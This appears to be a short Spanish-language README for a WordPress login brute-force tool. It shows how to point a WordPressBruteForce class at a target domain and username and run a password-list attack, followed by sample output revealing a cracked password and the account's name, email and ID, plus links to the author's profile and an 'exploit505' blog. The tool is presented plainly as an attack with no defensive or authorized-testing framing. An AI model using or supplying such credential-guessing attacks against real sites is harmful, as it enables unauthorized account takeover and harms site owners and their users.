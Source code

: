 # WP-Login- Brute-Force


# Se Crea una Instancia WordPressBruteForce
sitio_objetivo = WordPressBruteForce(wp_domain='example.com', wp_username='username')

"El nombre de usuario debe ser identificado con anterioridad,
el nombre de dominio debe incluir http:// o https://"

# Realiza un ataque de fuerza bruta
sitio_objetivo.brute_force_attack('password.txt')

"El archivo password debe contener una lista de potenciales contraseñas,
no debe llevar comas, y puede ser tan grande como se desee"

RESULTADO EJEMPLO:

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br>
ID de usuario: 1<br>


Perfil: https://www.linkedin.com/in/wikitech/
Blog: exploit505.blogspot.com
